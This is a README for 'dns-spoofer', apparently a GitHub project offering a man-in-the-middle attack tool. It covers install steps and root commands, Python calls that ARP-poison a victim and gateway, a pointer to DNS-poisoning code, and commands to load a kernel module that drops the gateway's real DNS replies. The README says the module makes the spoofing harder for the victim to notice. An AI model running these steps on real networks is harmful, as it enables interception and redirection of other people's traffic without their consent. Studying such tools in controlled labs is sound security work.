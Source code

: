 [![Build Status](https://travis-ci.org/adw1n/dns-spoofer.svg?branch=master)](https://travis-ci.org/adw1n/dns-spoofer)
![implementation](https://img.shields.io/badge/python-3.4%2C%203.5%2C%203.6-blue.svg)
![versions](https://img.shields.io/badge/implementation-cpython-blue.svg)

![Screenshot](screenshot.gif)

### About
man in the middle attacks

#### Limitations
* Ethernet II networks
* ipv4 only

#### Dependencies / requirements
* libnet-dev
* libpcap-dev
* python3-dev
* c++ compiler with c++11 support

For the "firewall" module:
* linux kernel >=4 (tested on 4.2, 4.4, 4.6 and 4.9)  
For older kernels you will probably have to change some function signatures.
* installed linux headers
### Install

```bash
git clone https://github.com/adw1n/dns-spoofer
cd dns-spoofer

# If you are going to run setup.py install, then
# I recommend using a virtualenv for this.
python setup.py build
python setup.py install # You could also add directory build/lib... to the PYTHONPATH instead.
```

### Usage
```bash
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
sudo python3  # dnsspoofer requires root privileges
```
#### ARP poisoning
```python
import dnsspoofer

# module documentation is available by:
# help(dnsspoofer)

# your mac addr:
# 33:33:33:33:33:33
# example arp -n output:
# gateway:
# 192.168.1.1     ether   10:20:30:40:50:60   C  em1
# victim:
# 192.168.1.100   ether   01:02:03:04:05:06   C  em1
dnsspoofer.spoof_arp(b"\x01\x02\x03\x04\x05\x06",b"192.168.1.1")
# now arp -n output on the victim's machine:
# 192.168.1.1     ether   33:33:33:33:33:33   C  em1

# you probably also want to spoof the victim's (192.168.1.100)
# mac address on the gateway
dnsspoofer.spoof_arp(b"\x10\x20\x30\x40\x50\x60",b"192.168.1.100")
```

#### DNS poisoning
see the [example.py](example.py) file

I haven't implemented the reverse DNS lookups (.in-addr.arpa requests), but this works fine in most cases without them too.
#### Netfilter kernel module
The DNS spoofing presented in example.py works, provided that you are faster than the gateway. This might not always be the case - for example the gateway might be caching the results. In this case the first time the victim tries to ping facebook.com everything might be working as expected, but the next time he asks about facebook.com the gateway will respond immediately. This can result in your response reaching the victim too late. This is super easy to notice in Wireshark.

The additional benefit of blocking gateway's reponses to the spoofed requests is that it is going to be harder to notice the spoofing going around form the victim's point of view.  
**!!!WARNING!!!  
Badly written kernel module can screw up your system. I recommend using a VM for this. Your mileage may vary.**

```bash
cd firewall
make
modinfo dnsfirewall.ko # show info about this module


# load the module
sync && sudo insmod dnsfirewall.ko blocked_sites="wp.pl|wikipedia.org|wikipedia.com|youtube.com" gateway=192.168.1.1 victim=192.168.1.100
# Module writes messages to SYSLOG with prefix 'DNS-SPOOFER'. Use 'dmesg' to see the syslog.


# remove the module
sync && sudo rmmod dnsfirewall.ko
```
